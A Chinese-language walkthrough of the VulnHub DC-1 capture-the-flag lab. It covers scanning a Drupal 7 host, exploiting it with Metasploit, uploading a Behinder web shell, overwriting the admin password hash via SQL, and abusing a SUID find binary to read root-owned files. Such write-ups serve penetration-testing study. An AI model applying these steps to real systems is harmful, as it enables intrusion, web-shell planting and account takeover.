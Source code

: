 ```yaml
---
title: vulnhub-DC-1
categories:
 - vulnhub
tags:
- vulnhub
- 渗透测试
---
```


vulnhub渗透之旅（1）-DC-1 Drupal

# 信息收集

## 扫网段

```
map -sn 192.168.72.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 01:50 EDT
Nmap scan report for 192.168.72.2
Host is up (0.0013s latency).
Nmap scan report for 192.168.72.153
Host is up (0.000094s latency).
Nmap scan report for 192.168.72.154
Host is up (0.0046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 5.14 seconds

```

153是kali，154就是目标主机

## 扫端口

```
nmap -A 192.168.72.154
```

发现22，80端口

## 扫web应用

```
whatweb 192.168.72.154
http://192.168.72.154 [200 OK] Apache[2.2.22], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Debian Linux][Apache/2.2.22 (Debian)], IP[192.168.72.154], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.4.45-0+deb7u14], PasswordField[pass], Script[text/javascript], Title[Welcome to Drupal Site | Drupal Site], UncommonHeaders[x-generator], X-Powered-By[PHP/5.4.45-0+deb7u14]
```

## 扫目录

```
dirb http://192.168.72.154   
```

内容过多就不放了

## nikto

```
nikto -h 192.168.72.154
```

# 手动渗透

尝试SQL注入无果后，考虑可以进行邮件重置逻辑上的挖取，但是还是先看看有没有Drupal的poc

## metasploit

![image-20210408145420007](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408145420007.png)

选一个近期的一把梭

![image-20210408145858059](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408145858059.png)

```
find -name "flag*"                
./flag1.txt
cat ./flag1.txt 
Every good CMS needs a config file - and so do you.
```

根据提示找配置文件看，发现flag2和数据库账号密码

![image-20210408150451197](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408150451197.png)

meterpreter里传个冰蝎的shell上去便于进一步渗透

```
upload ~/Desktop/shell.php /var/www/my.php
```



![image-20210408152940799](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408152940799.png)

## 连接数据库

根据前面的得到的账号连接数据库

![image-20210408153339450](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408153339450.png)

![image-20210408154220409](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408154220409.png)

不知道出了什么问题，冰蝎的数据库查询结果变成了数字，留个坑，再遇到一次就把原因搞清楚。

回到虚拟终端看数据库内容

![image-20210408161032826](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408161032826.png)

这里的密码明显hash过，又在目录里找了找，看到个文件描述了加密过程，也是有加盐的

## 获取管理员账号

好在找到了用来生成密码的文件

![image-20210408164443620](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164443620.png)

更新一下admin的密码试试

```
update drupaldb.users set pass="$S$DQWOIHX96iwXWl5kDZ6cmQ71T6KxngqIa/QOr7bm0jiyEN/TpCgX" where name = "admin";
```

登录成功看到flag3的提示，提示用命令来获取密码

那就看看passwd

![image-20210408164634388](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164634388.png)

发现用户flag4,去看看所在的文件夹

![image-20210408164730228](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408164730228.png)

## 越权读文件

查找有root权限的文件

``` 
find / -perm -u=s -type f 2>/dev/null
```



![image-20210408165159592](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408165159592.png)

![image-20210408165547236](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408165547236.png)

``` 
find /root -name "thefinalflag.txt" -exec cat {} \;
```

![image-20210408170314190](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408170314190.png)

这样就读到了最后的flag。